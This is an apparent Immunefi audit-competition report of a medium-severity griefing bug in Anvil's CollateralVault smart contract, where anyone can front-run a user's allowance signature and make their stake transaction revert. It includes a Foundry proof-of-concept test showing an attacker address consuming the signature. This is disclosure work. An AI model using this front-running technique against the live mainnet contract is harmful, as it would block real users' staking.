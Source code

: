 # #36475 \[SC-Medium] Token allowance signature can be front-run

**Submitted on Nov 3rd 2024 at 23:51:27 UTC by @zhuying for** [**Audit Comp | Anvil**](https://immunefi.com/audit-competition/audit-comp-anvil)

* **Report ID:** #36475
* **Report Type:** Smart Contract
* **Report severity:** Medium
* **Target:** https://etherscan.io/address/0xd042C267758eDDf34B481E1F539d637e41db3e5a
* **Impacts:**
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

The token allowance signature is required when users want to stake to TimeBasedCollateralPool. However when user initiates the stake tx, anyone can front-run the signature and call \`modifyCollateralizableTokenAllowanceWithSignature\` function in CollateralVault.sol to let user's nonce increase. And the user's stake tx will revert becauser of invalid signature.

## Vulnerability Details

\`\`\` function modifyCollateralizableTokenAllowanceWithSignature( address \_accountAddress, address \_collateralizableContractAddress, address \_tokenAddress, int256 \_allowanceAdjustment, bytes calldata \_signature // @audit-issue signature can be front-run ) external { if (\_allowanceAdjustment > 0 && !collateralizableContracts\[\_collateralizableContractAddress]) { revert ContractNotApprovedByProtocol(\_collateralizableContractAddress); }

```
    _modifyCollateralizableTokenAllowanceWithSignature(
        _accountAddress, _collateralizableContractAddress, _tokenAddress, _allowanceAdjustment, _signature
    );
}
```

\`\`\` The parameter of \`modifyCollateralizableTokenAllowanceWithSignature\` function is inputted directly. Anyone which knows signature information can call this function to consume signature. The contracts are depolyed to mainnet. If user initiates a stake tx publicly, the tx message is open to anyone. Attacker can front-run stake tx to let user's stake tx revert.

## Impact Details

User's token allowance signature is useless if anyone front-runs the signature message.

## References

https://github.com/AcronymFoundation/anvil-contracts/blob/1bbe04bb6f1aa1beea0ebf55e1bad67da3aa0f87/contracts/CollateralVault.sol#L294-L311

## Link to Proof of Concept

https://gist.github.com/psych2go/b596434b80f6ae5a9ad444a09bdab9b1

## Proof of Concept

## Proof of Concept

\`\`\` // SPDX-License-Identifier: ISC pragma solidity 0.8.25;

import {Test} from "forge-std/Test.sol"; import {CollateralVault} from "../contracts/CollateralVault.sol"; import {TimeBasedCollateralPool} from "../contracts/TimeBasedCollateralPool.sol"; import {ICollateral} from "../contracts/interfaces/ICollateral.sol";

import {mockERC20} from "./mocks/mockERC20.sol";

contract SignatureFrontrun is Test { error InvalidSignature(address account);

```
CollateralVault vault;
TimeBasedCollateralPool pool;
mockERC20 token;

address owner &#x3D; makeAddr(&quot;owner&quot;);
address claimDestination &#x3D; makeAddr(&quot;claimDestination&quot;);
address user &#x3D; makeAddr(&quot;user&quot;);
address attacker &#x3D; makeAddr(&quot;attacker&quot;);
uint256 privateKey &#x3D; 0x1234567890abcdef1234567890abcdef1234567890abcdef1234567890abcdef;
address signer &#x3D; vm.addr(privateKey);

bytes32 public constant COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH &#x3D; keccak256(
    &quot;CollateralizableTokenAllowanceAdjustment(address collateralizableAddress,address tokenAddress,int256 allowanceAdjustment,uint256 approverNonce)&quot;
);
bytes32 public constant COLLATERALIZABLE_DEPOSIT_APPROVAL_TYPEHASH &#x3D; keccak256(
    &quot;CollateralizableDepositApproval(address collateralizableAddress,address tokenAddress,uint256 depositAmount,uint256 approverNonce)&quot;
);
bytes32 private constant TYPE_HASH &#x3D;
    keccak256(&quot;EIP712Domain(string name,string version,uint256 chainId,address verifyingContract)&quot;);

uint256 per_hour &#x3D; 3600;
uint256 amount &#x3D; 1 ether;

function setUp() public {
    // depoly token contract
    token &#x3D; new mockERC20(&quot;Anvil&quot;, &quot;ANV&quot;);
    CollateralVault.CollateralTokenConfig[] memory config1 &#x3D; new CollateralVault.CollateralTokenConfig[](1);
    config1[0] &#x3D; CollateralVault.CollateralTokenConfig({enabled: true, tokenAddress: address(token)});
    vm.startPrank(owner);
    // depoly CollateralVault contract
    vault &#x3D; new CollateralVault(config1);
    // depoly TBCP contract
    pool &#x3D; new TimeBasedCollateralPool();
    pool.initialize(ICollateral(vault), per_hour, claimDestination, owner, address(0), address(0), address(0));
    CollateralVault.CollateralizableContractApprovalConfig[] memory config2 &#x3D;
        new CollateralVault.CollateralizableContractApprovalConfig[](1);
    config2[0] &#x3D; CollateralVault.CollateralizableContractApprovalConfig({
        collateralizableAddress: address(pool),
        isApproved: true
    });
    vault.upsertCollateralizableContractApprovals(config2);
    vm.stopPrank();
}

function testNormalCase() public {
    // 1.user deposits to signer
    vm.startPrank(user);
    token.mint(user, amount);
    token.approve(address(vault), amount);
    address[] memory tokenAddresses &#x3D; new address[](1);
    tokenAddresses[0] &#x3D; address(token);
    uint256[] memory amounts &#x3D; new uint256[](1);
    amounts[0] &#x3D; amount;
    vault.depositToAccount(signer, tokenAddresses, amounts);
    vm.stopPrank();
    // 2.signer signs message
    bytes32 messageHash &#x3D; toTypedDataHash(
        _buildDomainSeparator(),
        keccak256(
            abi.encode(
                COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH, address(pool), address(token), 1 ether, 0
            )
        )
    );
    (uint8 v, bytes32 r, bytes32 s) &#x3D; vm.sign(privateKey, messageHash);
    bytes memory signature &#x3D; abi.encodePacked(r, s, v);
    // 3.signer calls stake function
    vm.startPrank(signer);
    pool.stake(token, amount, signature);
    vm.stopPrank();
}

function testSignatureFrontrun() public {
    // 1.user deposits to signer
    vm.startPrank(user);
    token.mint(user, amount);
    token.approve(address(vault), amount);
    address[] memory tokenAddresses &#x3D; new address[](1);
    tokenAddresses[0] &#x3D; address(token);
    uint256[] memory amounts &#x3D; new uint256[](1);
    amounts[0] &#x3D; amount;
    vault.depositToAccount(signer, tokenAddresses, amounts);
    vm.stopPrank();
    // 2.signer signs message
    bytes32 messageHash &#x3D; toTypedDataHash(
        _buildDomainSeparator(),
        keccak256(
            abi.encode(
                COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH, address(pool), address(token), 1 ether, 0
            )
        )
    );
    (uint8 v, bytes32 r, bytes32 s) &#x3D; vm.sign(privateKey, messageHash);
    bytes memory signature &#x3D; abi.encodePacked(r, s, v);
    // 3.signer initiates tx
    /////////////////////////////////////////
    //vm.startPrank(signer);/////////////////
    //pool.stake(token, amount, signature);//
    //vm.stopPrank();////////////////////////
    /////////////////////////////////////////
    // 4.attacker front-runs the tx
    vm.startPrank(attacker);
    vault.modifyCollateralizableTokenAllowanceWithSignature(
        signer, address(pool), address(token), int256(amount), signature
    );
    vm.stopPrank();
    // 5.tx reverts
    vm.startPrank(signer);
    vm.expectRevert(abi.encodeWithSelector(InvalidSignature.selector, signer));
    pool.stake(token, amount, signature);
    vm.stopPrank();
}

// helper function for signature testing
function toTypedDataHash(bytes32 domainSeparator, bytes32 structHash) internal pure returns (bytes32 digest) {
    assembly (&quot;memory-safe&quot;) {
        let ptr :&#x3D; mload(0x40)
        mstore(ptr, hex&quot;1901&quot;)
        mstore(add(ptr, 0x02), domainSeparator)
        mstore(add(ptr, 0x22), structHash)
        digest :&#x3D; keccak256(ptr, 0x42)
    }
}

// helper function for signature testing
function _buildDomainSeparator() private view returns (bytes32) {
    string memory name &#x3D; &quot;CollateralVault&quot;;
    string memory version &#x3D; &quot;1&quot;;
    bytes32 _hashedName &#x3D; keccak256(bytes(name));
    bytes32 _hashedVersion &#x3D; keccak256(bytes(version));
    return keccak256(abi.encode(TYPE_HASH, _hashedName, _hashedVersion, block.chainid, address(vault)));
}
```

} \`\`\`
